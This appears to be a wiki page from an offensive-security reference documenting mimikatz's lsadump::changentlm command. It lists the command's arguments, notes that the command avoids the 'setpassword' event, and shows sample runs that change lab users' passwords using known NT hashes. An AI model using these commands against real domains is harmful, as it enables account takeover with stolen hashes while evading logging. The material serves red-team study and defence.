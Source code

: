 # changentlm

It can be used to change the password of a user. It accepts either a clear-text password or an NT hash.  [According to Benjamin](https://twitter.com/gentilkiwi/status/872588656967548928?s=20) this option avoids the "setpassword" event but it requires to know the previous password or NT hash. It has the following command line arguments:

* `/newpassword`: The new clear text password for the target user
* `/oldpassword` : The existing clear text password to change
* `/user`: the target user account
* `/oldntlm` or `/old` : The existing NTLM hash to change
* `/newntlm` or `/new` : The new NTLM hash for the target user
* `/server`: The domain controller FQDN

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="info" %}
A low privileged user can also utilise it to change his/her own password.
{% endhint %}

```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:adriane.lena /old:cded5acd2c1fc0f816c63ef317937deb /newpassword:WhatEverYouWant
OLD NTLM     : cded5acd2c1fc0f816c63ef317937deb
NEW NTLM     : e0e12e5f0fba8f1efbff3a7ceea6e907

Target server: DC.hacklab.local
Target user  : adriane.lena
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1479

>> Change password is a success!
```

While [lsadump::setntlm](https://app.gitbook.com/o/-MHRexVI3zSPLt5XfmzC/s/-MiRT0QHotSpofwDFs\_w/c/BS7ADuc9BHJUQTOlu3jb/mimikatz/modules/lsadump/setntlm) seems to work multiple times for the same user account, this is not the case for `lsadump::changentlm`. According to this [issue](https://github.com/gentilkiwi/mimikatz/issues/201) on mimikatz's Github, a user cannot change his password more than one per day.

```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:optimus /old:b09a14d2d325026f8986d4a874fbcbc7 /newpassword:WhatEverYouWant
OLD NTLM     : b09a14d2d325026f8986d4a874fbcbc7
NEW NTLM     : e0e12e5f0fba8f1efbff3a7ceea6e907

Target server: DC.hacklab.local
Target user  : optimus
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1732
ERROR kuhl_m_lsadump_changentlm_callback ; Bad new NTLM hash or password! (restriction)
```

